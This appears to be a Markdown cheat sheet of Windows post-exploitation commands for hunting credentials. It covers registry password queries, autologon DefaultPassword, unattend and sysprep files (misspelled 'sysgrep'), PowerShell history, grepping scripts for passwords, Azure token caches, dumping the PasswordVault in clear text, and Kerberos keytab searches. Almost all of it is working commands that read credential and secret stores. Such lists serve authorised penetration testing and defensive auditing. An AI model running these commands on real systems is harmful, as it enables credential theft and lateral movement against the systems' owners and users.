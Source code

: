 #### Check registery for passwords
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### Find autologon credentials registery key
```
Get-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\WinLogon" -Name "DefaultPassword"
```

#### Look for unattend and sysprep files
```
Get-ChildItem -path C:\* -Recurse -Include *Unattend.xml*
Get-ChildItem -path C:\Windows\Panther\* -Recurse -Include *Unattend.xml* 
Get-ChildItem -path C:\Windows\system32\* -Recurse -Include *sysgrep.xml*, *sysgrep.inf* 
Get-ChildItem -path C:\* -Recurse -Include *Unattend.xml*, *sysgrep.xml*, *sysgrep.inf* 
```

#### Get powershell history path and cat history
```
Get-PSReadlineOption
cat <path>
```

#### Look for powershell history files
```
Get-Childitem -Path C:\Users\* -Force -Include *ConsoleHost_history* -Recurse -ErrorAction SilentlyContinue
```

#### Look for hardcoded passwords in scripts
```
Get-ChildItem -path C:\*  -Recurse -Include *.xml,*.ps1,*.bat,*.txt  | Select-String "password"| Export-Csv C:\Scripts\Report.csv -NoTypeInformation
Get-ChildItem -path C:\*  -Recurse -Include *.xml,*.ps1,*.bat,*.txt  | Select-String "creds"| Export-Csv C:\Scripts\Report.csv -NoTypeInformation
```

#### Check for Azure tokens
```
Get-ChildItem -path "C:\Users\*" -Recurse -Include *accessTokens.json*, *TokenCache.dat*, *AzureRmContext.json*
```

#### Dump password vault
```
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
```

#### Check for keytab files
```
Get-ChildItem C:\users\ -Recurse -include *keytab* -erroraction silentlycontinue
Get-ChildItem C:\ -Recurse -include *keytab* -erroraction silentlycontinue
```
